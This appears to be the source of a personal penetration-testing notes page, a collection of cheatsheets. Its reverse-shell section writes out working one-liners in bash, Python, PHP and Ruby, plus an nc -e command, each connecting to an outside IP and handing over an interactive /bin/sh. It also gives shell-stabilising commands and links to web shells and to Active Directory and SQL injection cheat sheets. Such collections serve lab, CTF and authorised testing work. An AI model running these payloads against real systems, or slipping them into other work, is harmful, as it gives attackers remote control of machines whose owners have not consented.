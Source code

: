 ```yaml
---
layout: single
author_profile: true
permalink: /notes/
toc: true
title: Notes and Cheatsheets
toc_label: "Contents"
toc_icon: "fab fa-fw fa-th-list"
---
```


## Intro

This is a collection of commands and cheatsheets that I use on a regular basis, the original locations as to where these commands came from will be linked along side the commands. Again, these are not my creations, this is just a note of tools and commands that I have frequently used and that I think are useful. 

## Bash Prompt
[Here is a copy of my bash prompt](/bashrc)

## Shells
### Reverse Shells

{% highlight bash %}
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
{% endhighlight %}

{% highlight python %}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

{% highlight php %}
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}

{% highlight ruby %}
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}

[PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

[Perl Reverse Shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Credits for all of these shells goes to [pentestmonkey](http://pentestmonkey.net/)

### Web Shells

[p0wny@shell:~#](https://github.com/flozz/p0wny-shell) - My absolute favorite webshell

{% highlight php %}

{% endhighlight %}

### Interactive TTY Spawning

{% highlight bash linenos %}
nc -e /bin/sh 10.10.10.10 9001
{% endhighlight %}

{% highlight python linenos %}
python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

`Ctrl + Z`

{% highlight bash linenos %}
stty raw -echo && fg && reset
{% endhighlight %}

{% highlight bash linenos %}
export SHELL=bash
export TERM=tmux
stty rows 48 columns 127
{% endhighlight %}

## AD 

This [GitHub Page](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) by [S1ckB0y1337](https://github.com/S1ckB0y1337) is fantastic.

## SQLi

[MySQL Injection Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) - [pentestmonkey](http://pentestmonkey.net/)

[PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) - [PortSwigger](https://portswigger.net/)

[w3schools SQLi Explanation](https://www.w3schools.com/sql/sql_injection.asp)



